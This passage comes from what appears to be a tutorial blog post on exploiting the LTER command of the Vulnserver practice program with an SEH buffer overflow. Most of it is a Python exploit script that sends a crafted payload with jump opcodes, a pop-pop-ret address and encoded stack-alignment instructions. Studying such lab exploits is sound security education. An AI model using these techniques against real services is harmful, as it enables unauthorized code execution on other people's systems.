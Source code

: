 <div class="imgblock">

![Carve EAX](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331202/blog/vulnserver-lter-seh/push-eax1_pqhuob.gif)

</div>

Isn’t it wonderful? It looks like black magic\!

Let’s update our exploit with that:

``` python
import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'LTER .' +
    b'A' * (3554 - 4) +
    # JNZ SHORT +0x10: Will jump if ZF is 1
    b'\x75\x08' +
    # JZ SHORT +0x6: If the previous jump didn't happen (ZF is 0), jump!
    b'\x74\x06' +
    # 6250172B    5F                          POP EDI
    # 6250172C    5D                          POP EBP
    # 6250172D    C3                          RETN
    struct.pack('<L', 0x6250172B) +
    b'C' * 2 +
    # Align stack pointer
    b'\x54' +                   # PUSH ESP
    b'\x58' +                   # POP EAX
    b'\x66\x05\x53\x14' +       # ADD AX,0x1453
    b'\x50' +                   # PUSH EAX
    b'\x5c' +                   # POP ESP
    # Make EAX = '909080eb'
    b'\x25\x50\x50\x4A\x50' +   # AND EAX,504A5050
    b'\x25\x2A\x2A\x30\x2A' +   # AND EAX,2A302A2A
    b'\x05\x75\x40\x48\x48' +   # ADD EAX,48484075
    b'\x05\x76\x40\x48\x48' +   # ADD EAX,48484076
    b'\x50' +                   # PUSH EAX
    b'C' * (4000 - 3554 - 4)
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
```

## More jumping around

Great, but we landed on a 78-byte buffer. We need to jump to the start
of our `A` buffer. However, as we saw before, 78 bytes is more than
enough for encoding and executing a long backward jump. We will use the
same strategy as before.
